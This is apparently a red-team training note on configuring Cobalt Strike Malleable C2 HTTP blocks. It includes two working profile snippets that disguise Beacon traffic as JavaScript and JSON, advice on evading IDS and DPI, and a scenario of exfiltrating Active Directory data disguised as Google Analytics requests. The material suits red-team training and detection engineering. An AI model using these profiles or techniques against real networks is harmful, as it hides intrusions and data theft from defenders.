

# 96.05 Malleable C2 HTTP-GET and HTTP-POST blocks

While the `stage` block protects the Beacon in memory, the **`http-get`** and **`http-post`** blocks in a Malleable C2 profile protect the Beacon on the wire. These blocks define the exact structural format, encoding, and metadata associated with HTTP/HTTPS C2 traffic, allowing operators to bypass deep packet inspection (DPI), Intrusion Detection Systems (IDS like Snort/Suricata), and Web Application Firewalls (WAFs).

The primary goal of these blocks is **Traffic Emulation**. If you want your C2 traffic to look exactly like an Amazon Web Services API call, a Google Analytics tracking pixel, or a jQuery library update, these blocks are where you build that facade.

## Core Concepts: Metadata, Output, Tasks

Network communication in Cobalt Strike is fundamentally about transferring three things:
1.  **Metadata:** Information about the compromised host (Computer name, user, PID, architecture). Sent during initial check-in and subsequent polling.
2.  **Tasks:** Commands queued on the Team Server waiting for the Beacon to execute them.
3.  **Output:** The results of the executed tasks sent back from the Beacon to the Team Server.

### The `http-get` Block (Polling for Tasks)
When Beacon wakes up, it needs to ask the Team Server, "Do you have any tasks for me?" It does this via the `http-get` block. It must securely transmit its **Metadata** so the Team Server knows *which* Beacon is asking.

```text
http-get {
    set uri "/api/v1/update /assets/main.js /track/v3";
    
    client {
        header "Accept" "application/json, text/javascript, */*; q=0.01";
        
        metadata {
            mask;             # XOR the metadata with a randomly generated 4-byte key
            base64url;        # Encode the masked data as URL-safe Base64
            parameter "id";   # Stuff the resulting string into a URL parameter named "id"
        }
    }
    
    server {
        header "Content-Type" "application/javascript; charset=utf-8";
        header "Server" "nginx/1.18.0";
        
        output {
            mask;
            base64;
            prepend "var module_update = '";
            append "';\nconsole.log('Update OK');";
            print;            # Finalize the response body
        }
    }
}
```

---

## ASCII Architecture Diagram: HTTP Transformation Flow



---

## The `http-post` Block (Sending Output)
When a task finishes (e.g., `shell whoami` completes), Beacon uses the `http-post` block to send the **Output** back to the Team Server. It uses a session ID to identify itself.

```text
http-post {
    set uri "/log/ingest /telemetry/push";
    
    client {
        header "Content-Type" "application/json";
        
        id {
            mask;
            base64url;
            parameter "session_token";
        }
        
        output {
            mask;
            base64;
            prepend "{\"data\": \"";
            append "\", \"status\": \"success\"}";
            print;
        }
    }
    
    server {
        header "Content-Type" "application/json";
        
        output {
            mask;
            base64;
            print;
        }
    }
}
```

## Data Transformation Language

Cobalt Strike provides a specific, ordered language for manipulating data in transit. Transformations are applied in the exact order they are listed.
*   **`mask`**: XORs the data. This is crucial because it disrupts static signatures. If a command outputs "mimikatz", Snort will flag it. If it is XOR'd, it looks like random binary noise.
*   **`base64` / `base64url`**: Converts binary data into printable ASCII.
*   **`netbios` / `netbiosu`**: Encodes data using standard or uppercase NetBIOS encoding (often useful for DNS profiles).
*   **`prepend` / `append`**: Adds static strings before or after the data. This is how you format the raw data to look like valid JSON, XML, or JavaScript, tricking DPI engines into thinking the payload is benign text.
*   **Termination Statements (`print`, `header`, `parameter`, `uri-append`)**: These define exactly where the fully transformed data block will be placed in the final HTTP request or response.

## Evasion Techniques and OPSEC

1.  **Do Not Output Raw Base64:** EDR and IDS platforms heuristically analyze traffic. High entropy Base64 blocks in random HTTP bodies trigger alerts. Always `prepend` and `append` context to make it look like expected data (e.g., a hidden HTML field, a serialized JSON blob, or a JWT token).
2.  **Avoid Default Headers:** If you are emulating an Nginx server, ensure your `server` block sends `header "Server" "nginx"`. If the profile claims to be a Windows update check, the user-agent must match `Microsoft-CryptoAPI`.
3.  **Varying URIs:** Provide multiple URIs in the `set uri` directive. The Beacon will randomly select one for each check-in, breaking simple regex signatures looking for a specific path.

---

## Real-World Attack Scenario

**Scenario:** Operation "Invisible Pixel"
**Objective:** Exfiltrate active directory enumeration results past a highly restrictive Palo Alto Networks firewall performing SSL Decryption and DPI.

**Execution:**
1.  **Analysis:** The Red Team analyzes the target's outbound traffic and notices heavy, unblocked use of Google Analytics tracking pixels.
2.  **Profile Engineering:** The operator designs an `http-post` profile that perfectly mimics Google Analytics.
    *   The URI is set to `/collect`.
    *   The Beacon ID is stuffed into the `cid` (Client ID) parameter.
    *   The actual exfiltrated command output is masked, base64url encoded, and appended to the `&ec=` (Event Category) or `&ea=` (Event Action) parameters typically used by Google Analytics.
3.  **Execution:** The Beacon executes `net domain_trusts`. The output is thousands of bytes of data.
4.  **Evasion Success:** The Palo Alto firewall decrypts the SSL traffic. It inspects the HTTP POST. It sees a request to `/collect` loaded with standard-looking Google Analytics URL parameters (`v=1&tid=UA-XXXXX-Y&cid=...`). The DPI engine classifies it as `web-browsing/analytics` and allows it through. The threat hunters looking at network logs ignore it as standard telemetry noise.

---

## Chaining Opportunities

*   These HTTP blocks dictate the transit of the data, but the data itself is generated by the execution methods defined in **[[02 - Understanding the Beacon Payload]]**.
*   The overall structure, jitter, and memory obfuscation that supports these network calls are housed in the global and stage blocks discussed in **[[04 - Introduction to Malleable C2 Profiles]]**.
*   If this HTTPS listener is the tip of the spear, the internal pivot routing its data through this exact HTTP configuration relies on the SMB and TCP mechanics outlined in **[[03 - Listeners Beacons and SMB Named Pipes]]**.

---

## Related Notes
*   [[01 - Cobalt Strike Architecture and Team Server Setup]]
*   [[04 - Introduction to Malleable C2 Profiles]]
*   [[Network Traffic Analysis Evasion]]
*   [[Emulating APT C2 Infrastructure]]
*   [[Bypassing Deep Packet Inspection (DPI)]]
